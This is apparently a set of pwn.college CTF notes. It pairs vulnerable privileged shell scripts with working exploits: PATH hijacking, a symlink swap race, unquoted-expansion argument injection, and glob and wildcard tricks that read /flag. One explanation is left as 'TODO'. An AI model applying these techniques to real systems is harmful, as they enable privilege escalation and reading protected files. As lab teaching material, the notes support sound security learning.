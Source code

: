 # The Transient Path

### chall

```sh
#!/opt/pwn.college/sh

fortune
```

### exploit
```
create shell script named 'fortune' in /home/hacker with content "cat /flag"
```

# Ferocious Functionality

### chall

```sh
#!/opt/pwn.college/bash

unset PATH
did you think you could hack this? It doesnt even exist!
```

### exploit
```sh
ln -s fortune did
```

last location where bash looks at for binary is current working directory

# The Surprising Swap

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

[ "$1" == "ping" ] && echo "pinged!" && read && "$0" pong
[ "$1" == "pong" ] && echo "ponged!"
```

### exploit
run /challenge/run via symlink
while /challenge/run is waiting for newline, swap symlink with 'cat /flag'

# Path of the Unquoted

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/sh

PATH=/usr/bin

[ -n "$1" ] || exit 1
[ "$1" = "flag" ] && exit 2
[ $1 = "flag" ] && cat /flag

echo "Goodbye!"
```

### exploit
```sh
/challenge/run "1 = 1 -o flag"
```
due to unquoted expansion, was able to substitute $1 with any string

# Globbing Harmony

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/sh

PATH=/usr/bin
cd /tmp
cat /flag | tr -d [A-Za-z0-9]
```

### exploit
```sh
touch /tmp/9
/challenge/run
```
"filename expansion" is used in tr command, which replaces that glob with matching file name, in our case by 9, and then truncates only character '9'.

# Zen of Expansion

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

pretty_cat () {
	HEADER="Here is /etc/passwd!"
	FILE="/etc/passwd"
	[ -n "$1" ] && HEADER="$1" && shift
	[ -n "$1" ] && FILE="$1" && shift

	echo "####### $HEADER ########"
	cat "$FILE"
}

[ "$#" -eq 1 ] || exit 1
pretty_cat $*
```

### exploit
```sh
/challenge/run "a /flag"
```
unquoted expansion of $* leads to supplying second parameter to pretty_cat function, causing second parameter to move to FILE variable.

# Way of the Wildcard

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

read FLAG < /flag
[[ "$FLAG" = $1 ]] && cat /flag
echo "Goodbye!"
```

### exploit
```sh
/challenge/run "*"
```
'*' is a wildcard, expanding to any possible string

# Saga of the Sneaky Similarity

### chall

```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin
CHALLENGE=$RANDOM$RANDOM$RANDOM

[ -n "$1" ] || exit 1
[ $1 -eq "$CHALLENGE" ] && cat /flag
echo "Goodbye!"
```

### exploit
```sh
/challenge/run "0 -o 1"
```
TODO